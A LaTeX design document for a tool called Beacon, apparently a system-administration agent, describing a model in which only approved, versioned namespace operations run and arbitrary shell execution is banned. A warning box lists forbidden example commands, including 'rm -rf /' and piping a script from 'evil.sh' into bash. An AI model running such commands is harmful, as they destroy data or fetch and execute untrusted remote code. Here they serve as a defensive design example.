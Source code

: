 \documentclass[12pt,a4paper]{article}
\begin{document}
\section{Core Design Principles}

\subsection{The Approved Operations Model}

Beacon is \textbf{not} a shell wrapper. Arbitrary shell execution is strictly forbidden at every layer.

\begin{warningbox}
\textbf{Forbidden Operations — Will Never Be Supported}
\begin{lstlisting}[language=bash]
beacon exec "rm -rf /"
beacon exec "curl evil.sh | bash"
beacon namespace add-command "user supplied shell"
\end{lstlisting}
\end{warningbox}

All execution occurs through \textbf{approved, versioned operations} contained within namespaces:

\begin{lstlisting}[language=json, caption={Example namespace operation definition}]
{
  "namespace": "update_system",
  "operations": [
    { "type": "update_packages" },
    { "type": "upgrade_packages" },
    { "type": "autoremove_packages" }
  ]
}
\end{lstlisting}

\subsection{Supported Operation Categories}

\begin{multicols}{2}
\begin{itemize}[noitemsep,leftmargin=*]
    \item Package Operations
    \item Service Operations
    \item File Operations
    \item Directory Operations
    \item User Operations
    \item Group Operations
    \item Backup Operations
    \item Network Operations
    \item Container Operations
    \item System Operations
    \item Custom Plugin Operations
\end{itemize}
\end{multicols}
\end{document}
